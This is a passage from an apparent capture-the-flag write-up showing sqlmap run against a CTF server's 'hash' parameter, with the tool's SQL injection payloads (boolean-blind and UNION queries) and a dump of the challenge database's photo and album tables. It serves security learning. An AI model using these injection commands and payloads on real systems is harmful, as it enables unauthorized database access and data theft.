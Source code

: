It is possible the `hash` parameter that is used to fetch the photos in that album is vulnerable to SQL injection. We could check manually like we did for day 9, but let's use [sqlmap](http://sqlmap.org/) this time around.

```
$ sqlmap -u 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=3dir42'

GET parameter 'hash' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: hash (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: hash=3dir42' AND 2469=2469 AND 'eVQs'='eVQs

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: hash=-9115' UNION ALL SELECT NULL,NULL,CONCAT(0x7171767871,0x6652794752675962646d466752426364554549457a736577764752754f4c537877415a7363784e73,0x71627a7871)-- -
---
```

Nice, the parameter is vulnerable! We can exploit this further to dump all the database tables:

```
$ sqlmap -u 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=3dir42' --threads=5 --dump

Database: recon
Table: photo
[6 entries]
+----------+------+--------------------------------------+
| album_id | id   | photo                                |
+----------+------+--------------------------------------+
| 1        | 1    | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 1        | 2    | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 2        | 3    | 32febb19572b12435a6a390c08e8d3da.jpg |
| 3        | 4    | db507bdb186d33a719eb045603020cec.jpg |
| 3        | 5    | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 3        | 6    | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----------+------+--------------------------------------+

Database: recon
Table: album
[3 entries]
+------+--------+-----------+
| id   | hash   | name      |
+------+--------+-----------+
| 1    | 3dir42 | Xmas 2018 |
| 2    | 59grop | Xmas 2019 |
| 3    | jdh34k | Xmas 2020 |
+------+--------+-----------+
```
